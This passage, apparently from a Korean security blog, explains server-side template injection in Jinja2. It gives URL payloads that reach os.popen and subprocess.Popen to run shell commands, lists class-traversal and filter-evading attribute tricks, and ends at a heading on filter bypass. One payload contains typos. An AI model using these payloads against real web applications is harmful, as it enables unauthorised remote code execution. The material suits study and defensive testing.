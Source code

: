 여러 시나리오가 존재하겠지만, 보통 RCE 로 연계하기위해 **<u style=color:"red">codecs.IncrementalDecoder</u>**  클래스와 **<u style=color:"red">subprocess.Popen</u>**클래스를 사용한다.

```
codecs.IncrementalDecoder

http://uri~~/?name={{''.__class__.__base__.__subclasses__()[125].__init.__.__globals__['sys'].moules['os'].popen('ls').read()}}
```

```
subprocess.Popen

http://uri~~/?name={{''.__class__.__base__.__subclasses__()[351]('ls',shell=True,stdout=-1).communicate()[0].strip()}}
```

위와 같은 Payload를 사용할 수 있게된다.

<div class="notice">
  <h4>index값은 서버 환경마다 서로 상이할 수 있다.</h4>
</div>

위 코드에서 .__base__ 대신 .__mro__[1] 또는 .__bases__[0]를 사용하여도 무관하다.
mro 또한 객체가 상속받은 클래스 목록을 확인할 수 있으며,
<br><br>

**<u style=color:"red">base와 mro의 차이점은 직접 상속받은 클래스의 튜플이냐 모든 클래스의 튜플이냐의 차이이다.</u>**

> 이 외에도 Jinja2 웹 템플릿 엔진에서 사용되는 Payload는 무척 많으며, 각 상황에 맞게 적절하게 만들어 사용하여야 한다.

```python
# To access a class object
[].__class__
''.__class__
()["__class__"] # You can also access attributes like this
request["__class__"]
config.__class__
dict #It's already a class

# From a class to access the class "object". 
## "dict" used as example from the previous list:
dict.__base__
dict["__base__"]
dict.mro()[-1]
dict.__mro__[-1]
(dict|attr("__mro__"))[-1]
(dict|attr("\x5f\x5fmro\x5f\x5f"))[-1]

# From the "object" class call __subclasses__()
{{ dict.__base__.__subclasses__() }}
{{ dict.mro()[-1].__subclasses__() }}
{{ (dict.mro()[-1]|attr("\x5f\x5fsubclasses\x5f\x5f"))() }}

{% with a = dict.mro()[-1].__subclasses__() %} {{ a }} {% endwith %}

# Other examples using these ways
{{ ().__class__.__base__.__subclasses__() }}
{{ [].__class__.__mro__[-1].__subclasses__() }}
{{ ((""|attr("__class__")|attr("__mro__"))[-1]|attr("__subclasses__"))() }}
{{ request.__class__.mro()[-1].__subclasses__() }}
{% with a = config.__class__.mro()[-1].__subclasses__() %} {{ a }} {% endwith %}
```
# Bypass SSTI Filtering
